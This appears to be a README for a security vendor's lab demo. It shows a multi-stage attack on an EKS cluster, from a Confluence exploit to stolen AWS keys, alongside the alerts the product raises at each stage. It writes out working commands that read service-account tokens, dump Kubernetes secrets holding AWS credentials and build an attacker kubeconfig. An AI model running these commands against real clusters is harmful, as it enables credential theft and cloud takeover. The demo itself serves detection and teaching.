 ## 🛠️ Orca Security EKS Attack Detection Demo

### 🔥 Scenario Summary:

We simulate a multi-stage cloud attack starting from a vulnerable Confluence Server (**CVE-2023-22515**) running in EKS. The attacker exploits the vulnerability to get a reverse-shell in the pod, uses a misconfigured service account to gain cluster-admin access, pivots to a GitLab Runner pod (configured with AWS credentials), and then uses those credentials to interact with AWS (e.g., S3 access, Crypto miner...).

---

## 🧪 Attacker Flow (Full Kill Chain)

### ✅ Stage 1: Initial Access via Confluence Exploit

- Attacker exploits CVE-2023-22515 (auth bypass + RCE) in Confluence-Server 8.5.0
- Gets shell inside the `confluence` pod

---
### 🛡️ Orca Detection:

Vulnerability Alert: Orca detects CVE-2023-22515 as a critical vulnerability.

Workload Exposure: The Confluence pod is exposed externally — Orca highlights the exposure and potential exploit path.

Malicious Process Behavior: If the attacker spawns an interactive shell, Orca detects anomalous process execution.

---

### ✅ Stage 2: Internal Kubernetes API Access via Service Account Token

Once inside the pod, the attacker extracts the Kubernetes ServiceAccount credentials:

```bash
cat /var/run/secrets/kubernetes.io/serviceaccount/token > sa.token
cat /var/run/secrets/kubernetes.io/serviceaccount/ca.crt > ca.crt
cat /var/run/secrets/kubernetes.io/serviceaccount/namespace > namespace.txt
```

These files give the attacker:

- `sa.token`: a Bearer JWT for Kubernetes API access
- `ca.crt`: the cluster’s Certificate Authority for TLS verification
- `namespace.txt`: current namespace (e.g., `confluence`)

They also extract the internal Kubernetes API server address from the env variables:

```bash
echo "https://$KUBERNETES_SERVICE_HOST:$KUBERNETES_SERVICE_PORT"
# Usually https://10.100.0.1:443
```

They can now use `curl` inside the pod to interact with the API:

```bash
curl --cacert ca.crt \
  -H "Authorization: Bearer $(cat sa.token)" \
  https://$KUBERNETES_SERVICE_HOST:$KUBERNETES_SERVICE_PORT/api
```
---
### 🛡️ Orca Detection:

Toxic Combination Alert: Orca detects that the default ServiceAccount in the confluence namespace is bound to cluster-admin.

RBAC Misconfiguration: Elevated access for a workload-exposed ServiceAccount is flagged.

Access Pattern Monitoring: Usage of the service account to query sensitive resources triggers anomaly alerts if audit logs are integrated.
---

### ✅ Stage 3: Discover GitLab Runner and Steal AWS Credentials

#### 🔍 Step 1: List All Namespaces

```bash
curl --cacert ca.crt \
  -H "Authorization: Bearer $(cat sa.token)" \
  https://$KUBERNETES_SERVICE_HOST:$KUBERNETES_SERVICE_PORT/api/v1/namespaces
```

Search output for lines like `"name":"gitlab-runner"` to find the target namespace.

#### 🔍 Step 2: List Pods in GitLab Runner Namespace

```bash
curl --cacert ca.crt \
  -H "Authorization: Bearer $(cat sa.token)" \
  https://$KUBERNETES_SERVICE_HOST:$KUBERNETES_SERVICE_PORT/api/v1/namespaces/gitlab-runner/pods
```

Search for pod names (look for `"name":"gitlab-runner-xxxxx"`).

#### 🔍 Step 3: Get Pod Environment to Identify Secrets

```bash
curl --cacert ca.crt \
  -H "Authorization: Bearer $(cat sa.token)" \
  https://$KUBERNETES_SERVICE_HOST:$KUBERNETES_SERVICE_PORT/api/v1/namespaces/gitlab-runner/pods/gitlab-runner-xxxxx
```

Look inside for `env` section. You'll see references to:

- Secret: `aws-credentials`
- Keys: `AWS_ACCESS_KEY_ID`, `AWS_SECRET_ACCESS_KEY`

#### 🔍 Step 4: Dump the Secret

```bash
curl --cacert ca.crt \
  -H "Authorization: Bearer $(cat sa.token)" \
  https://$KUBERNETES_SERVICE_HOST:$KUBERNETES_SERVICE_PORT/api/v1/namespaces/gitlab-runner/secrets/aws-credentials
```

Search for base64 values of:

- `AWS_ACCESS_KEY_ID`
- `AWS_SECRET_ACCESS_KEY`

Decode with:

```bash
echo "<base64>" | base64 -d
```

🎉 You now have AWS credentials — without ever entering the GitLab pod.

---
### 🛡️ Orca Detection:

Lateral Movement Alert: Orca detects access to resources in other namespaces from a compromised SA.

Sensitive Data in Secrets: Orca flags secrets containing AWS keys as critical posture risks.

Cross-namespace Secret Access: Unusual access patterns between unrelated workloads trigger risk indicators.
---

### ✅ Stage 4: Cloud Pivot with Stolen AWS Credentials

On your attacker machine:

```bash
export AWS_ACCESS_KEY_ID=XXXXX
export AWS_SECRET_ACCESS_KEY=XXXXX
```

#### Get Caller Identity

```bash
aws sts get-caller-identity
```

#### List Clusters and Get EKS Endpoint

```bash
aws eks list-clusters --region us-east-1
aws eks describe-cluster --name orca-eks-demo --region us-east-1 --query "cluster.endpoint" --output text
```

Now you can generate a valid kubeconfig with the original Confluence service account token and the external EKS API URL.

---
### 🛡️ Orca Detection:

CloudTrail Anomalies: Orca detects AWS credentials being used in abnormal patterns, geographies, or service contexts.

Credential Misuse Detection: The GitLab role is used in unexpected ways, triggering alerts.

Sensitive Asset Access: Orca alerts on S3 reads or IAM actions from compromised identities.

Correlation Across Layers: Orca correlates the use of Kubernetes credentials with subsequent AWS abuse for a unified incident timeline.

---

### ✅ Bonus: Reconfigure `kubectl` on Attacker Machine with Stolen Token

If attacker cannot install `kubectl` inside the Confluence pod, they can copy the token, CA cert, and API server info, then use this script on their own system:

#### `generate_kubeconfig.sh`

```bash
#!/bin/bash

# Usage: ./generate_kubeconfig.sh <path-to-sa.token> <path-to-ca.crt> <EKS_CLUSTER_ENDPOINT>
if [ "$#" -ne 3 ]; then
  echo "Usage: $0 <path-to-sa.token> <path-to-ca.crt> <EKS_CLUSTER_ENDPOINT>"
  exit 1
fi

SA_TOKEN=$(cat "$1" | tr -d '\n')
CA_CERT=$(base64 -w0 "$2")
CLUSTER_ENDPOINT="$3"

cat <<EOF > attacker-kubeconfig.yaml
apiVersion: v1
kind: Config
clusters:
- cluster:
    certificate-authority-data: $CA_CERT
    server: $CLUSTER_ENDPOINT
  name: eks-orca-demo
contexts:
- context:
    cluster: eks-orca-demo
    namespace: confluence
    user: attacker
  name: attacker-context
current-context: attacker-context
users:
- name: attacker
  user:
    token: $SA_TOKEN
EOF

echo "✅ Kubeconfig written to attacker-kubeconfig.yaml"
```

Then use it:

```bash
kubectl --kubeconfig attacker-kubeconfig.yaml get pods -A
```